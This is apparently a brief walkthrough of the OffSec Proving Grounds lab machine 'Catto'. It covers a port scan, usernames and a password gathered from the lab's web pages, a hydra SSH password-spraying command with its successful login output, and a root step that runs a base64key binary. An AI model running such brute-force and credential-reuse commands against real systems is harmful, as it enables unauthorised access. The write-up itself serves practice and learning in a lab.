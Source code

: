 # Catto

## Info

Catto is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
8080/tcp  open  http    syn-ack ttl 61 nginx 1.14.1
18080/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.37 ((centos))
30330/tcp open  http    syn-ack ttl 61 Node.js Express framework
34519/tcp open  http    syn-ack ttl 61 Node.js Express framework
37205/tcp open  unknown syn-ack ttl 61
42022/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.0 (protocol 2.0)
50400/tcp open  http    syn-ack ttl 61 Node.js Express framework
```

## User

Looking at the web page on port 30330, I see a paragraph on the minecraft book review stating a server had been set up for the following people.

```
keralis
xisuma
zombiecleo
mumbojumbo
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
```

On the site home page is a link to the following page.

```
/page-2
```

I change this to page-1 and get a 404, but the index showed the following.

```
/new-server-config-mc
```

Which had the password.

```
WallAskCharacter305
```

Brute force with hydra.

```
hydra -L ./foundnames.txt -p 'WallAskCharacter305' -s 42022 192.168.213.139 ssh
```

```
[42022][ssh] host: 192.168.213.139   login: marcus   password: WallAskCharacter305
```

## Root

There is a hidden .bash file with base64 encoding, in /usr/bin there is a base64key binary.

```
/usr/bin/base64key F2jJDWaNin8pdk93RLzkdOTr60== WallAskCharacter305 1
```
